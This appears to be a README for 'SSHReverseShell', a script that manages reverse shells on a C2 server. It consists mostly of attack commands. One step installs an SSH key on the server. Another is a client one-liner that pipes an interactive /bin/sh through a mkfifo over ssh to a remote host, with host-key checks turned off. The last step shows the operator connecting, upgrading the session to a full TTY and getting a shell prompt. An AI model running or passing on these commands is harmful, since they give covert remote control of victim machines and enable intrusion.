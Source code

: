 # SSHReverseShell
Script to setup a SSH reverse shell manager on a C2 server

1. Setup on the server
    ```bash
    ./sshshell.sh -a "<ssh id_rsa.pub>"
    ```
    ```
    Installing additional authorized principal rshell => ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOG+aXTDEM4k6Y/20s0NDZNWlmad+3nQotJYBBwqT7Ai/INV59WsSbQyL91W5y+30rMZQlXpk2UfVyxrFHCaEtUz3CXP/kkFsj862dgc3b8HeQM83GlHj6lZmpxihdVrNsQ7vn6uJTA9Wwo12fkGEXsN985ksofQR9s+rVIQJT3SAmJNhwbc8hDpunHl2sSRYil+kdVcCABNzKMUz5/3N6iB1DHzzYdgAIyZQ4+wmemUbBQ+clvqrVC2OdKl7h7WSEqgSp4IsHO0Bmo7ELqNYR1ORGk505dGGx62hbO5f7gciirRsH5EyptpBG3xYZxns4E5ont13l9GsL+Ok8ZH6N rshell@server
    ```

2. Connect from the client
    ```bash
    mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -i <ssh id_rsa> -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@internal.server.com > /tmp/f; rm /tmp/f
    ```

3. Connect on the server
    ```bash
    ./sshshell.sh
    ```
    ```
    Connecting to 89.197.101.20_18000...
    Upgrade to a full TTY:
    * Launch a ptty:
      $ python -c 'import pty; pty.spawn("/bin/bash")'
      or
      $ script
    * Background the process (Ctrl+z)
    * Setup the environment:
      $ stty raw -echo
      $ fg
      $ reset; export SHELL=bash; export TERM=xterm-256color; stty rows 27 columns 204
    Connection to 127.0.0.1 18000 port [tcp/*] succeeded!
    sh: no job control in this shell
    sh-3.2$
    ```
